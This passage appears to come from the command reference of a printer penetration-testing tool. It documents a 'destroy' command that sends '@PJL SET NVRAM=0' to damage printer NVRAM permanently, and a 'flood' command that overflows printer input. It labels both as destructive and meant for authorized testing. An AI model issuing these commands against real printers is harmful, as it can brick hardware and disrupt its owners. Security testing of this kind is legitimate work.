 ### destroy - Physical NVRAM Damage

**⚠️⚠️⚠️ DESTRUCTIVE ATTACK ⚠️⚠️⚠️**

Attempts to cause physical damage to printer's NVRAM.

**Syntax:**
```
destroy
```

**Warnings:**
- ⚠️ MAY CAUSE PERMANENT HARDWARE DAMAGE
- ⚠️ CANNOT BE UNDONE
- ⚠️ FOR RESEARCH PURPOSES ONLY
- ⚠️ REQUIRES EXPLICIT CONFIRMATION

**Notes:**
- Use only in authorized testing
- May brick the printer
- Requires 'yes' confirmation
- Legal and ethical implications

**PJL Command Used:**
```
@PJL SET NVRAM=0
```

---

### flood - Buffer Overflow Test

Floods printer input to test for buffer overflow vulnerabilities.

**Syntax:**
```
flood [size]
```

**Examples:**
```bash
flood                     # Flood with 10000 bytes
flood 50000               # Flood with 50000 bytes
flood 100000              # Large flood test
```

**Notes:**
- Default size: 10000 bytes
- ⚠️ May crash or hang printer
- Used to discover vulnerabilities
- Printer may need restart after

**PJL Command Used:**
```
@PJL DISPLAY "<AAAA...repeating>"
```

---
